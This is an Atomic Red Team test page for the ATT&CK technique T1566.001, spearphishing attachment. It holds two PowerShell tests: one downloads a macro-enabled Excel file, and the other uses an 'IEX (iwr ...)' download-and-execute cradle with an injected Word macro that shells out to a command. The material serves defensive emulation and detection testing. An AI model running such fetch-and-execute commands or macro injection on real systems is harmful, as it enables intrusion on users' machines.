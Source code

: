 # T1566.001 - Spearphishing Attachment
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)
<blockquote>Adversaries may send spearphishing emails with a malicious attachment in an attempt to elicit sensitive information and/or gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Phishing Attachment - VBScript](#atomic-test-1---download-phishing-attachment---vbscript)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)


<br/>

## Atomic Test #1 - Download Phishing Attachment - VBScript
The macro-enabled Excel file contains VBScript which opens your default web browser and opens it to [google.com](http://google.com).
The below will successfully download the macro-enabled Excel file to the current location.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
if (-not(Test-Path HKLM:SOFTWARE\Classes\Excel.Application)){
  return 'Please install Microsoft Excel before running this test.'
}
else{
  $url = 'https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
  $fileName = 'PhishingAttachment.xlsm'
  New-Item -Type File -Force -Path $fileName | out-null
  $wc = New-Object System.Net.WebClient
  $wc.Encoding = [System.Text.Encoding]::UTF8
  [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
  ($wc.DownloadString("$url")) | Out-File $fileName
}
```






<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indiciator of malicious activity.
Upon execution, CMD will be lauchned and ping 8.8.8.8

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
